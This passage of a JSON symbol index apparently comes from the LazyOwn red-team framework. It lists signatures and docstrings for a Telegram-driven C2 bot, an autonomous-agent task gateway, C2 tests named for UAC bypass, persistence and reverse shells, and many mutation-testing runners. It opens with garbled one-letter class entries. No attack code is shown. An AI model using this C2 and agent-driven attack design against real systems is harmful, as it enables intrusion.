"class", "line": 1, "name": "extends"}, {"kind": "class", "line": 1, "name": "extends"}, {"kind": "class", "line": 1, "name": "n"}, {"kind": "class", "line": 1, "name": "S"}, {"kind": "class", "line": 1, "name": "k"}, {"kind": "class", "line": 1, "name": "i"}, {"kind": "class", "line": 1, "name": "r"}, {"kind": "class", "line": 1, "name": "n"}, {"kind": "class", "line": 1, "name": "extends"}, {"kind": "class", "line": 1, "name": "i"}, {"kind": "class", "line": 1, "name": "s"}, {"kind": "class", "line": 1, "name": "h"}, {"kind": "class", "line": 1, "name": "o"}, {"kind": "class", "line": 1, "name": "o"}, {"kind": "class", "line": 1, "name": "n"}, {"kind": "class", "line": 1, "name": "n"}, {"kind": "class", "line": 1, "name": "a"}, {"kind": "class", "line": 1, "name": "c"}, {"kind": "class", "line": 1, "name": "s"}, {"kind": "class", "line": 1, "name": "o"}, {"kind": "class", "line": 1, "name": "extends"}, {"kind": "class", "line": 1, "name": "extends"}, {"kind": "class", "line": 1, "name": "extends"}, {"kind": "class", "line": 1, "name": "c"}, {"kind": "class", "line": 1, "name": "l"}, {"kind": "class", "line": 1, "name": "n"}, {"kind": "class", "line": 1, "name": "extends"}, {"kind": "class", "line": 1, "name": "a"}, {"kind": "class", "line": 1, "name": "n"}, {"kind": "class", "line": 1, "name": "d"}]}, {"id": "telegram_c2.py", "kind": "module", "label": "telegram_c2.py", "language": "py", "sha256": "562c5b6fa778f6a3", "symbol_count": 18, "symbols": [{"kind": "class", "line": 18, "name": "SecureSessionManager", "signature": "class SecureSessionManager"}, {"kind": "class", "line": 77, "name": "Config", "signature": "class Config"}, {"kind": "function", "line": 87, "name": "load_payload", "signature": "def load_payload()"}, {"kind": "function", "line": 93, "name": "start", "signature": "def start(update, context)"}, {"kind": "function", "line": 116, "name": "exce_cmd", "signature": "def exce_cmd(update, context)"}, {"kind": "function", "line": 191, "name": "add_cli", "signature": "def add_cli(update, context)"}, {"kind": "function", "line": 203, "name": "handle_file", "signature": "def handle_file(update, context)"}, {"doc": "Handle the /download_c2 command to download a file from the C2.\n\nParameters:\nupdate (Update): The Telegram update object.\ncontext (CallbackContext): The context object.\n\nReturns:\nNone", "kind": "function", "line": 230, "name": "download_c2", "signature": "def download_c2(update, context)"}, {"kind": "function", "line": 271, "name": "send_connected_clients", "signature": "def send_connected_clients(update, context)"}, {"kind": "function", "line": 286, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 19, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 24, "name": "register_failed_attempt", "signature": "def register_failed_attempt(self, user_id)"}, {"kind": "method", "line": 31, "name": "check_lockout", "signature": "def check_lockout(self, user_id)"}, {"kind": "method", "line": 40, "name": "check_rate_limit", "signature": "def check_rate_limit(self, user_id)"}, {"kind": "method", "line": 53, "name": "create_session", "signature": "def create_session(self, user_id, client_id)"}, {"kind": "method", "line": 61, "name": "validate_session", "signature": "def validate_session(self, user_id)"}, {"kind": "method", "line": 78, "name": "__init__", "signature": "def __init__(self, config_dict)"}, {"kind": "method", "line": 83, "name": "__getitem__", "signature": "def __getitem__(self, key)"}]}, {"doc": "telegram_hermes.py LazyOwn Telegram Bot with Hermes Gateway Integration  This bot bridges Telegram to the full LazyOwn framework via the MCP layer and Hermes gateway for autonomous task execution. It supports: - Direct LazyOwn shell command execution - Autonomous agent delegation (Groq/Ollama) - Cron-scheduled tasks - C2 beacon interaction - Cross-platform messaging via Hermes gateway  Usage: python3 telegram_hermes.py  Configuration (payload.json keys): telegram_token       - Telegram bot token from @BotFather c2_pass              - Authentication secret for /start enable_ia            - Enable Groq AI processing (default: false) api_key              - Groq API key (if enable_ia is true) lhost, c2_port       - C2 server coordinates", "id": "telegram_hermes.py", "kind": "module", "label": "telegram_hermes.py", "language": "py", "sha256": "b4a701026872d492", "symbol_count": 29, "symbols": [{"doc": "Execute one or more LazyOwn shell commands non-interactively via PTY.\nReplicates the MCP server's _run_lazyown_command logic.", "kind": "function", "line": 61, "name": "run_lazyown_command", "signature": "def run_lazyown_command(command, timeout)"}, {"kind": "function", "line": 145, "name": "c2_request", "signature": "def c2_request(path, method, body)"}, {"kind": "function", "line": 177, "name": "load_payload", "signature": "def load_payload()"}, {"kind": "class", "line": 186, "name": "SecureSessionManager", "signature": "class SecureSessionManager"}, {"kind": "function", "line": 255, "name": "start", "signature": "def start(update, context)"}, {"kind": "function", "line": 278, "name": "help_cmd", "signature": "def help_cmd(update, context)"}, {"kind": "function", "line": 306, "name": "execute_command", "signature": "def execute_command(update, context)"}, {"kind": "function", "line": 337, "name": "sitrep", "signature": "def sitrep(update, context)"}, {"kind": "function", "line": 373, "name": "config_cmd", "signature": "def config_cmd(update, context)"}, {"kind": "function", "line": 422, "name": "add_cli", "signature": "def add_cli(update, context)"}, {"kind": "function", "line": 437, "name": "list_clients", "signature": "def list_clients(update, context)"}, {"kind": "function", "line": 464, "name": "c2_command", "signature": "def c2_command(update, context)"}, {"kind": "function", "line": 504, "name": "run_agent", "signature": "def run_agent(update, context)"}, {"kind": "function", "line": 533, "name": "delegate_task_cmd", "signature": "def delegate_task_cmd(update, context)"}, {"kind": "function", "line": 564, "name": "cron_schedule_cmd", "signature": "def cron_schedule_cmd(update, context)"}, {"kind": "function", "line": 597, "name": "status_cmd", "signature": "def status_cmd(update, context)"}, {"kind": "function", "line": 630, "name": "stop_daemon_cmd", "signature": "def stop_daemon_cmd(update, context)"}, {"kind": "function", "line": 647, "name": "download_file_cmd", "signature": "def download_file_cmd(update, context)"}, {"kind": "function", "line": 675, "name": "handle_file_upload", "signature": "def handle_file_upload(update, context)"}, {"doc": "Handle any text message as a direct LazyOwn command.", "kind": "function", "line": 712, "name": "text_command", "signature": "def text_command(update, context)"}, {"kind": "function", "line": 772, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 187, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 192, "name": "register_failed_attempt", "signature": "def register_failed_attempt(self, user_id)"}, {"kind": "method", "line": 199, "name": "check_lockout", "signature": "def check_lockout(self, user_id)"}, {"kind": "method", "line": 208, "name": "check_rate_limit", "signature": "def check_rate_limit(self, user_id)"}, {"kind": "method", "line": 221, "name": "create_session", "signature": "def create_session(self, user_id, client_id)"}, {"kind": "method", "line": 229, "name": "validate_session", "signature": "def validate_session(self, user_id)"}, {"kind": "method", "line": 241, "name": "get_client_id", "signature": "def get_client_id(self, user_id)"}, {"kind": "method", "line": 245, "name": "set_client_id", "signature": "def set_client_id(self, user_id, client_id)"}]}, {"doc": "conftest.py o config.py", "id": "test/config.py", "kind": "module", "label": "config.py", "language": "py", "sha256": "03e9ec7c5dcf6142", "symbol_count": 2, "symbols": [{"kind": "function", "line": 24, "name": "encrypt_data", "signature": "def encrypt_data(data)"}, {"kind": "function", "line": 33, "name": "decrypt_data", "signature": "def decrypt_data(b64_data)"}]}, {"doc": "test_commands.py", "id": "test/test_commands.py", "kind": "module", "label": "test_commands.py", "language": "py", "sha256": "76ea4ab632c442c1", "symbol_count": 15, "symbols": [{"doc": "Simula enviar un comando vía interfaz web /issue_command con autenticación básica", "kind": "function", "line": 36, "name": "send_command_via_web", "signature": "def send_command_via_web(command)"}, {"doc": "Obtiene el comando cifrado del endpoint GET", "kind": "function", "line": 51, "name": "get_encrypted_command", "signature": "def get_encrypted_command()"}, {"doc": "Envía el resultado cifrado al C2", "kind": "function", "line": 59, "name": "post_result", "signature": "def post_result(result_data)"}, {"kind": "function", "line": 79, "name": "test_migrate", "signature": "def test_migrate()"}, {"kind": "function", "line": 89, "name": "test_uac_bypass", "signature": "def test_uac_bypass()"}, {"kind": "function", "line": 99, "name": "test_portscan", "signature": "def test_portscan()"}, {"kind": "function", "line": 110, "name": "test_discover", "signature": "def test_discover()"}, {"kind": "function", "line": 121, "name": "test_proxy", "signature": "def test_proxy()"}, {"kind": "function", "line": 138, "name": "test_download", "signature": "def test_download()"}, {"kind": "function", "line": 159, "name": "test_upload", "signature": "def test_upload()"}, {"kind": "function", "line": 176, "name": "test_persistence", "signature": "def test_persistence()"}, {"kind": "function", "line": 186, "name": "test_softenum", "signature": "def test_softenum()"}, {"kind": "function", "line": 196, "name": "test_simulate", "signature": "def test_simulate()"}, {"kind": "function", "line": 206, "name": "test_reverse_shell", "signature": "def test_reverse_shell()"}, {"kind": "function", "line": 216, "name": "test_shutdown", "signature": "def test_shutdown()"}]}, {"id": "test_bdd.sh", "kind": "module", "label": "test_bdd.sh", "language": "sh", "sha256": "f893c707c4588bdf", "symbol_count": 0, "symbols": []}, {"id": "testmeneitor.py", "kind": "module", "label": "testmeneitor.py", "language": "py", "sha256": "78b0fa67399a0b10", "symbol_count": 5, "symbols": [{"kind": "function", "line": 13, "name": "extract_functions", "signature": "def extract_functions(script_path)"}, {"kind": "function", "line": 30, "name": "run_tests_with_script", "signature": "def run_tests_with_script(script_path, functions)"}, {"kind": "function", "line": 54, "name": "run_command_with_timeout", "signature": "def run_command_with_timeout(command, timeout)"}, {"kind": "function", "line": 80, "name": "run_tests_with_bash", "signature": "def run_tests_with_bash(script_path, functions)"}, {"kind": "class", "line": 35, "name": "TestFunctions", "signature": "class TestFunctions(TestCase)"}]}, {"id": "tests/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "f813c53b4d1cc74f", "symbol_count": 0, "symbols": []}, {"doc": "Global pytest isolation hooks.  Resets module-level singleton state that otherwise leaks between tests and causes order-dependent failures (the world-model singleton cached by ``modules.world_model.get_world_model``). Each test starts from a clean singleton so a test can never observe engagement state written by an earlier test.", "id": "tests/conftest.py", "kind": "module", "label": "conftest.py", "language": "py", "sha256": "a2704a97a718dc83", "symbol_count": 10, "symbols": [{"doc": "Isolate the persisted LLM breaker and its shared registry per test.\n\n``llm_pool`` is importable both as ``modules.llm_pool`` and as a\ntop-level ``llm_pool`` (tests that add ``modules/`` to ``sys.path``);\nboth module objects must point at the isolated path or breaker state\nleaks between tests through the real ``sessions/lazy`` file.", "kind": "function", "line": 16, "name": "_isolated_llm_health", "signature": "def _isolated_llm_health(tmp_path, monkeypatch)"}, {"doc": "Keep the pool's connect-retry backoff out of test wall-clock.\n\nThe retry itself is exercised by unit tests that stub ``sleep``;\neverywhere else the offline backend fails fast, so the real backoff\nwould only add seconds per pool call across the suite.", "kind": "function", "line": 46, "name": "_fast_llm_connect_backoff", "signature": "def _fast_llm_connect_backoff(monkeypatch)"}, {"doc": "Drop the cached WorldModel before and after every test.", "kind": "function", "line": 62, "name": "_reset_world_model_singleton", "signature": "def _reset_world_model_singleton()"}, {"doc": "Loop/lazy unit tests never reach live LLM backends.\n\nThe loop's planner and goal decomposer call the configured chain;\nwithout this pin the suite would depend on whatever local ollama or\ngateway happens to answer, making tests slow and nondeterministic.\nTests exercising the pool patch ``llm_factory.complete`` themselves.", "kind": "function", "line": 72, "name": "_offline_llm_for_loop_tests", "signature": "def _offline_llm_for_loop_tests(request, monkeypatch)"}, {"kind": "function", "line": 32, "name": "_isolated_path", "signature": "def _isolated_path()"}, {"kind": "function", "line": 89, "name": "_offline", "signature": "def _offline(model, prompt, max_tokens)"}, {"doc": "Health stub keeping every member available for the test.", "kind": "class", "line": 94, "name": "_HealthyRegistry", "signature": "class _HealthyRegistry"}, {"kind": "method", "line": 97, "name": "healthy", "signature": "def healthy(self, name)"}, {"kind": "method", "line": 100, "name": "report_failure", "signature": "def report_failure(self, name, reason)"}, {"kind": "method", "line": 103, "name": "report_success", "signature": "def report_success(self, name)"}]}, {"id": "tests/integration_autonomous_flow.py", "kind": "module", "label": "integration_autonomous_flow.py", "language": "py", "sha256": "0c069b10af011f47", "symbol_count": 1, "symbols": [{"doc": "Simulates a simplified autonomous flow to verify module integration.", "kind": "function", "line": 15, "name": "test_autonomous_flow_integration", "signature": "def test_autonomous_flow_integration()"}]}, {"doc": "Manual mutation testing runner for the LazyAddon creator contract.  Introduces targeted mutations (validation bypasses, security hardening removals, renderer corruptions) into ``lazyc2/addon_creator.py`` and ``lazyc2/blueprints/addons.py`` and verifies the test suite detects each one.  A surviving mutant means the tests are too weak to notice the behaviour change, which violates the addon creator Definition of Done.", "id": "tests/run_mutation_addon_creator.py", "kind": "module", "label": "run_mutation_addon_creator.py", "language": "py", "sha256": "dcfdafd6da997abf", "symbol_count": 4, "symbols": [{"doc": "Store the original content of every mutated file.\n\nArgs:\n    mutations: The mutation catalogue.\n    base_dir: The repository root.\n\nReturns:\n    A mapping of mutation name to original file content.", "kind": "function", "line": 94, "name": "backup_files", "signature": "def backup_files(mutations, base_dir)"}, {"doc": "Restore every mutated file to its original content.\n\nArgs:\n    backups: Original contents keyed by mutation name.\n    base_dir: The repository root.\n    mutations: The mutation catalogue.", "kind": "function", "line": 112, "name": "restore_files", "signature": "def restore_files(backups, base_dir, mutations)"}, {"doc": "Run the contract suite and report whether it passed.\n\nReturns:\n    True when the suite is green.", "kind": "function", "line": 125, "name": "run_tests", "signature": "def run_tests()"}, {"doc": "Execute the mutation gate and restore the tree afterwards.\n\nReturns:\n    0 when every mutant was killed, 1 when any survived.", "kind": "function", "line": 140, "name": "main", "signature": "def main()"}]}, {"doc": "Mutation testing runner for core.api_authz and core.logging.  Introduces targeted mutations into the production code and verifies that the test suite detects every one. A surviving mutant means the test is too weak and must be hardened.", "id": "tests/run_mutation_api_authz.py", "kind": "module", "label": "run_mutation_api_authz.py", "language": "py", "sha256": "e8acdbf1e86423ce", "symbol_count": 3, "symbols": [{"doc": "Apply the mutation to *source*. Returns mutated string or None.", "kind": "function", "line": 64, "name": "_apply_mutation", "signature": "def _apply_mutation(source, data)"}, {"doc": "Run pytest for *test*. Returns True if test PASSED (mutant survived).", "kind": "function", "line": 71, "name": "_run_mutation_subprocess", "signature": "def _run_mutation_subprocess(test)"}, {"doc": "Run all mutations. Returns dict with killed/survived counts.", "kind": "function", "line": 83, "name": "run", "signature": "def run()"}]}, {"doc": "Manual mutation runner for the LAZY port contracts.  Introduces targeted mutations into the integrated modules and verifies the scoped BDD suite detects each one.", "id": "tests/run_mutation_autonomous_ops.py", "kind": "module", "label": "run_mutation_autonomous_ops.py", "language": "py", "sha256": "e19af571d1e3ba87", "symbol_count": 4, "symbols": [{"doc": "Snapshot original file contents.", "kind": "function", "line": 59, "name": "backup_files", "signature": "def backup_files(mutations, base_dir)"}, {"doc": "Restore original file contents.", "kind": "function", "line": 69, "name": "restore_files", "signature": "def restore_files(backups, base_dir, mutations)"}, {"doc": "Run the scoped BDD targets and return True on success.", "kind": "function", "line": 76, "name": "run_tests", "signature": "def run_tests()"}, {"doc": "Execute baseline then each mutation and report kills.", "kind": "function", "line": 87, "name": "main", "signature": "def main()"}]}, {"doc": "Mutation gate for C2 route-level auth boundaries.  Removes the ``@requires_auth_or_session`` guard from one representative operator endpoint and asserts ``tests/test_c2_route_auth.py`` kills the mutant. Survival means an operator surface can drift back to anonymous without the suite noticing.", "id": "tests/run_mutation_c2_route_auth.py", "kind": "module", "label": "run_mutation_c2_route_auth.py", "language": "py", "sha256": "de20bafc2d2f57c3", "symbol_count": 2, "symbols": [{"kind": "function", "line": 29, "name": "_run_tests", "signature": "def _run_tests()"}, {"kind": "function", "line": 40, "name": "main", "signature": "def main()"}]}, {"doc": "Mutation gate for the contract manifest drift checker.  Each mutation weakens one resolution rule in ``scripts/check_contract_manifest.py``. ``tests/test_contract_manifest.py`` must kill every mutant. Survival means a documented contract could drift without CI noticing.", "id": "tests/run_mutation_contract_manifest.py", "kind": "module", "label": "run_mutation_contract_manifest.py", "language": "py", "sha256": "606cd5313b489744", "symbol_count": 2, "symbols": [{"doc": "Return True when the manifest test module passes.", "kind": "function", "line": 35, "name": "_run_tests", "signature": "def _run_tests()"}, {"doc": "Run every mutant and return the process exit code.", "kind": "function", "line": 47, "name": "main", "signature": "def main()"}]}, {"doc": "Mutation runner for the disposable infra and reporting contracts.  Applies targeted mutations to ``cli/commands/infra.py``, ``modules/c2_builder.py``, ``modules/professional_report.py``, and ``modules/redteam_gym.py``, verifying that ``tests/test_infra_disposable.py`` plus ``tests/test_bdd_infra_range_report.py`` detect each one.", "id": "tests/run_mutation_infra_report.py", "kind": "module", "label": "run_mutation_infra_report.py", "language": "py", "sha256": "526b7f3c28e5f24c", "symbol_count": 4, "symbols": [{"doc": "Snapshot mutated files for restoration.\n\nArgs:\n    mutations: Mutation table.\n    base_dir: Repository root.\n\nReturns:\n    Mapping of mutation name to original file content.", "kind": "function", "line": 92, "name": "backup_files", "signature": "def backup_files(mutations, base_dir)"}, {"doc": "Restore original file contents.\n\nArgs:\n    backups: Original contents by mutation name.\n    base_dir: Repository root.\n    mutations: Mutation table.", "kind": "function", "line": 110, "name": "restore_files", "signature": "def restore_files(backups, base_dir, mutations)"}, {"doc": "Run the scoped contract suites.\n\nReturns:\n    True when both suites pass.", "kind": "function", "line": 122, "name": "run_tests", "signature": "def run_tests()"}, {"doc": "Execute the scoped mutation gate.\n\nReturns:\n    Process exit code, nonzero when a mutant survives.", "kind": "function", "line": 137, "name": "main", "signature": "def main()"}]}, {"doc": "Manual mutation testing runner for the unified kill-chain contract.  Introduces targeted mutations (value swaps, logic inversions, security hardening removals) into the production kill-chain, beacon-history and auto-refresh code and verifies the test suite detects each one.  A surviving mutant means the tests are too weak to notice the behaviour change, which violates the kill-chain Definition of Done.", "id": "tests/run_mutation_killchain.py", "kind": "module", "label": "run_mutation_killchain.py", "language": "py", "sha256": "9276e18059208b54", "symbol_count": 4, "symbols": [{"kind": "function", "line": 56, "name": "backup_files", "signature": "def backup_files(mutations, base_dir)"}, {"kind": "function", "line": 65, "name": "restore_files", "signature": "def restore_files(backups, base_dir, mutations)"}, {"kind": "function", "line": 71, "name": "run_tests", "signature": "def run_tests()"}, {"kind": "function", "line": 81, "name": "main", "signature": "def main()"}]}, {"doc": "Mutation runner for the LLM subsystem contract.  Applies targeted mutations to the surviving LLM modules and verifies that ``tests/test_llm_contract.py`` detects each one. A surviving mutant means the contract test is too weak.", "id": "tests/run_mutation_llm.py", "kind": "module", "label": "run_mutation_llm.py", "language": "py", "sha256": "a9a59bfa7efb7313", "symbol_count": 4, "symbols": [{"kind": "function", "line": 60, "name": "backup_files", "signature": "def backup_files(mutations, base_dir)"}, {"kind": "function", "line": 69, "name": "restore_files", "signature": "def restore_files(backups, base_dir, mutations)"}, {"kind": "function", "line": 74, "name": "run_tests", "signature": "def run_tests()"}, {"kind": "function", "line": 84, "name": "main", "signature": "def main()"}]}, {"doc": "Mutation gate for the no-shell execution contract.  The scanner in ``tests/test_no_shell_execution.py`` must fail when a real ``os.system`` call or a manual ``sys.stdout`` assignment reappears. Each mutation injects one of those into a production file and asserts the scanner kills the mutant.", "id": "tests/run_mutation_no_shell.py", "kind": "module", "label": "run_mutation_no_shell.py", "language": "py", "sha256": "99ec3886baa26ccc", "symbol_count": 2, "symbols": [{"doc": "Return True when the no-shell contract tests pass.", "kind": "function", "line": 25, "name": "_run_tests", "signature": "def _run_tests()"}, {"doc": "Run every mutant and return the process exit code.", "kind": "function", "line": 37, "name": "main", "signature": "def main()"}]}, {"doc": "Mutation runner for the consolidated OPSEC scorer contract.  Applies targeted mutations to ``modules/opsec_scorer.py`` and verifies that ``tests/test_opsec_scorer_consolidated.py`` detects each one.", "id": "tests/run_mutation_opsec.py", "kind": "module", "label": "run_mutation_opsec.py", "language": "py", "sha256": "9ff26433cbda3f1d", "symbol_count": 4, "symbols": [{"kind": "function", "line": 59, "name": "backup_files", "signature": "def backup_files(mutations, base_dir)"}, {"kind": "function", "line": 68, "name": "restore_files", "signature": "def restore_files(backups, base_dir, mutations)"}, {"kind": "function", "line": 73, "name": "run_tests", "signature": "def run_tests()"}, {"kind": "function", "line": 83, "name": "main", "signature": "def main()"}]}, {"doc": "Mutation testing runner for Phase 1 data-gap closure.  Introduces targeted mutations into the production code that correspond to the gaps we closed. If a mutant survives, the test suite failed to detect the regression — meaning the gap would silently reappear.  Mutations: 1. service_version back to add_note        — should kill test_phase1_data_gaps 2. domain handler removed                  — should kill test_phase1_data_gaps 3. email handler removed                   — should kill test_phase1_data_gaps 4. _EmailExtractor not registered          — should kill test_phase1_data_gaps 5. _emails.clear() missing from reset      — should kill test_phase1_data_gaps 6. metadata port removed from extractor    — should kill test_phase1_data_gaps 7. credential_aware_rank without boost     — should kill test_phase1_data_gaps 8. GraphTopologySignal wired incorrectly   — should kill test_phase1_data_gaps", "id": "tests/run_mutation_phase1.py", "kind": "module", "label": "run_mutation_phase1.py", "language": "py", "sha256": "65633a74a3168403", "symbol_count": 4, "symbols": [{"kind": "function", "line": 138, "name": "backup_files", "signature": "def backup_files(mutations, base_dir)"}, {"kind": "function", "line": 147, "name": "restore_files", "signature": "def restore_files(backups, base_dir, mutations)"}, {"kind": "function", "line": 153, "name": "run_tests", "signature": "def run_tests()"}, {"kind": "function", "line": 164, "name": "main", "signature": "def main()"}]}, {"doc": "Mutation gate for shell semantics and colored output.  Each mutation removes one rule from the shell-semantics contract and asserts the matching test fails. Survival means the regression guard is not wired.", "id": "tests/run_mutation_shell_semantics.py", "kind": "module", "label": "run_mutation_shell_semantics.py", "language": "py", "sha256": "43957eb1d94bbe08", "symbol_count": 2, "symbols": [{"doc": "Return True when the shell-semantics tests pass.", "kind": "function", "line": 41, "name": "_run_tests", "signature": "def _run_tests()"}, {"doc": "Run every mutant and return the process exit code.", "kind": "function", "line": 53, "name": "main", "signature": "def main()"}]}, {"doc": "Manual mutation testing runner for LazyOwn connectivity improvements.  Introduces targeted mutations (inversions, deletions, value swaps) into the production code and verifies that the test suite detects them.  A surviving mutant means the test is too weak — it should catch the mutation.", "id": "tests/run_mutation_tests.py", "kind": "module", "label": "run_mutation_tests.py", "language": "py", "sha256": "3b58e4cd7ec2284f", "symbol_count": 4, "symbols": [{"kind": "function", "line": 69, "name": "backup_files", "signature": "def backup_files(mutations, base_dir)"}, {"kind": "function", "line": 78, "name": "restore_files", "signature": "def restore_files(backups, base_dir, mutations)"}, {"kind": "function", "line": 84, "name": "run_tests", "signature": "def run_tests()"}, {"kind": "function", "line": 103, "name": "main", "signature": "def main()"}]}, {"doc": "Mutation testing runner for the UX usability contracts.  Introduces targeted mutations into the production code that revert the fixes this work shipped. If a mutant survives, the test suite failed to detect the regression — meaning the usability gap would silently reappear.  Mutations: 1. off level no longer suppresses surfaces        — killed by test_tips_engine 2. minimal level runs the full surface set        — killed by test_tips_engine 3. contextual_help drops canonical phase labels   — killed by test_phase_labels 4. canonical command count drifts by one          — killed by test_sync_doc_stats", "id": "tests/run_mutation_ux_usability.py", "kind": "module", "label": "run_mutation_ux_usability.py", "language": "py", "sha256": "c1521f3f07a68f39", "symbol_count": 4, "symbols": [{"kind": "function", "line": 60, "name": "_run_tests", "signature": "def _run_tests()"}, {"kind": "function", "line": 71, "name": "_backups", "signature": "def _backups(mutations)"}, {"kind": "function", "line": 79, "name": "_restore", "signature": "def _restore(backups, mutations)"}, {"kind": "function", "line": 84, "name": "main", "signature": "def main()"}]}, {"doc": "tests/test_aci_planner.py ========================= Test suite for skills/aci_planner.py (Autonomous Campaign Intelligence).  All tests use tmp_path / tempfile for isolation. No real LLM calls — Groq requests are patched at urllib.request.urlopen. No real filesystem side-effects outside tmp_path.", "id": "tests/test_aci_planner.py", "kind": "module", "label": "test_aci_planner.py", "language": "py", "sha256": "0aa9cf0a2f774e33", "symbol_count": 95, "symbols": [{"kind": "function", "line": 33, "name": "_make_goal", "signature": "def _make_goal()"}, {"doc": "Return a dict of patch targets → tmp_path values for aci_planner globals.", "kind": "function", "line": 47, "name": "_patched_paths", "signature": "def _patched_paths(tmp_path)"}, {"kind": "function", "line": 60, "name": "_start_patches", "signature": "def _start_patches(tmp_path)"}, {"kind": "function", "line": 77, "name": "_stop_patches", "signature": "def _stop_patches(patchers)"}, {"kind": "function", "line": 82, "name": "_make_planner", "signature": "def _make_planner(tmp_path, api_key)"}, {"kind": "function", "line": 94, "name": "_make_engine", "signature": "def _make_engine(tmp_path, api_key)"}, {"kind": "class", "line": 111, "name": "TestACIGoal", "signature": "class TestACIGoal"}, {"kind": "class", "line": 134, "name": "TestAttackPhase", "signature": "class TestAttackPhase"}, {"kind": "class", "line": 177, "name": "TestACIPlan", "signature": "class TestACIPlan"}, {"kind": "class", "line": 244, "name": "TestACIPlannerStatic", "signature": "class TestACIPlannerStatic"}, {"kind": "class", "line": 345, "name": "TestACIPlannerLLM", "signature": "class TestACIPlannerLLM"}, {"kind": "class", "line": 421, "name": "TestACIEngineStatus", "signature": "class TestACIEngineStatus"}, {"kind": "class", "line": 462, "name": "TestACIEngineShouldReplan", "signature": "class TestACIEngineShouldReplan"}, {"kind": "class", "line": 522, "name": "TestACIEngineReplan", "signature": "class TestACIEngineReplan"}, {"kind": "class", "line": 596, "name": "TestACIEngineComplete", "signature": "class TestACIEngineComplete"}, {"kind": "class", "line": 626, "name": "TestACIReflector", "signature": "class TestACIReflector"}, {"kind": "class", "line": 723, "name": "TestMCPBridges", "signature": "class TestMCPBridges"}, {"kind": "class", "line": 829, "name": "TestPersistenceHelpers", "signature": "class TestPersistenceHelpers"}, {"kind": "class", "line": 914, "name": "TestCLI", "signature": "class TestCLI"}, {"kind": "method", "line": 112, "name": "test_fields", "signature": "def test_fields(self)"}, {"kind": "method", "line": 122, "name": "test_defaults", "signature": "def test_defaults(self)"}, {"kind": "method", "line": 135, "name": "test_to_dict_round_trip", "signature": "def test_to_dict_round_trip(self)"}, {"kind": "method", "line": 154, "name": "test_from_dict_ignores_extra_keys", "signature": "def test_from_dict_ignores_extra_keys(self)"}, {"kind": "method", "line": 178, "name": "_make_plan", "signature": "def _make_plan(self, phase_statuses)"}, {"kind": "method", "line": 204, "name": "test_completion_pct_all_done", "signature": "def test_completion_pct_all_done(self)"}, {"kind": "method", "line": 208, "name": "test_completion_pct_none_done", "signature": "def test_completion_pct_none_done(self)"}, {"kind": "method", "line": 212, "name": "test_completion_pct_partial", "signature": "def test_completion_pct_partial(self)"}, {"kind": "method", "line": 216, "name": "test_active_phase_returns_first_pending_or_active", "signature": "def test_active_phase_returns_first_pending_or_active(self)"}, {"kind": "method", "line": 221, "name": "test_active_phase_none_when_all_done", "signature": "def test_active_phase_none_when_all_done(self)"}, {"kind": "method", "line": 225, "name": "test_to_dict_has_completion_pct", "signature": "def test_to_dict_has_completion_pct(self)"}, {"kind": "method", "line": 231, "name": "test_round_trip", "signature": "def test_round_trip(self)"}, {"kind": "method", "line": 245, "name": "test_plan_creates_file", "signature": "def test_plan_creates_file(self, tmp_path)"}, {"kind": "method", "line": 252, "name": "test_plan_has_phases", "signature": "def test_plan_has_phases(self, tmp_path)"}, {"kind": "method", "line": 257, "name": "test_first_phase_is_active", "signature": "def test_first_phase_is_active(self, tmp_path)"}, {"kind": "method", "line": 262, "name": "test_subsequent_phases_are_pending", "signature": "def test_subsequent_phases_are_pending(self, tmp_path)"}, {"kind": "method", "line": 268, "name": "test_objectives_injected_into_file", "signature": "def test_objectives_injected_into_file(self, tmp_path)"}, {"kind": "method", "line": 276, "name": "test_objectives_ids_match_phase_objectives", "signature": "def test_objectives_ids_match_phase_objectives(self, tmp_path)"}, {"kind": "method", "line": 287, "name": "test_phase_filter_restricts_phases", "signature": "def test_phase_filter_restricts_phases(self, tmp_path)"}, {"kind": "method", "line": 293, "name": "test_objective_source_is_aci_planner", "signature": "def test_objective_source_is_aci_planner(self, tmp_path)"}, {"kind": "method", "line": 302, "name": "test_plan_status_is_active", "signature": "def test_plan_status_is_active(self, tmp_path)"}, {"kind": "method", "line": 307, "name": "test_plan_id_is_unique", "signature": "def test_plan_id_is_unique(self, tmp_path)"}, {"kind": "method", "line": 313, "name": "test_plan_target_stored", "signature": "def test_plan_target_stored(self, tmp_path)"}, {"kind": "method", "line": 318, "name": "test_plan_domain_stored", "signature": "def test_plan_domain_stored(self, tmp_path)"}, {"kind": "method", "line": 323, "name": "test_objectives_contain_target_in_text", "signature": "def test_objectives_contain_target_in_text(self, tmp_path)"}, {"kind": "method", "line": 330, "name": "test_plan_roundtrip_from_disk", "signature": "def test_plan_roundtrip_from_disk(self, tmp_path)"}, {"kind": "method", "line": 346, "name": "_llm_response", "signature": "def _llm_response(self, phases)"}, {"kind": "method", "line": 355, "name": "test_llm_phases_used_when_api_key_set", "signature": "def test_llm_phases_used_when_api_key_set(self, tmp_path)"}, {"kind": "method", "line": 380, "name": "test_llm_objectives_injected", "signature": "def test_llm_objectives_injected(self, tmp_path)"}, {"kind": "method", "line": 399, "name": "test_llm_failure_falls_back_to_static", "signature": "def test_llm_failure_falls_back_to_static(self, tmp_path)"}, {"kind": "method", "line": 407, "name": "test_llm_bad_json_falls_back_to_static", "signature": "def test_llm_bad_json_falls_back_to_static(self, tmp_path)"}, {"kind": "method", "line": 422, "name": "test_status_no_plan", "signature": "def test_status_no_plan(self, tmp_path)"}, {"kind": "method", "line": 427, "name": "test_status_with_plan", "signature": "def test_status_with_plan(self, tmp_path)"}, {"kind": "method", "line": 437, "name": "test_status_has_active_phase", "signature": "def test_status_has_active_phase(self, tmp_path)"}, {"kind": "method", "line": 444, "name": "test_status_completion_zero_at_start", "signature": "def test_status_completion_zero_at_start(self, tmp_path)"}, {"kind": "method", "line": 451, "name": "test_status_blocked_count_zero_at_start", "signature": "def test_status_blocked_count_zero_at_start(self, tmp_path)"}, {"kind": "method", "line": 463, "name": "_write_objectives_blocked", "signature": "def _write_objectives_blocked(self, obj_file, obj_ids)"}, {"kind": "method", "line": 483, "name": "test_should_replan_false_when_no_plan", "signature": "def test_should_replan_false_when_no_plan(self, tmp_path)"}, {"kind": "method", "line": 487, "name": "test_should_replan_false_below_threshold", "signature": "def test_should_replan_false_below_threshold(self, tmp_path)"}, {"kind": "method", "line": 496, "name": 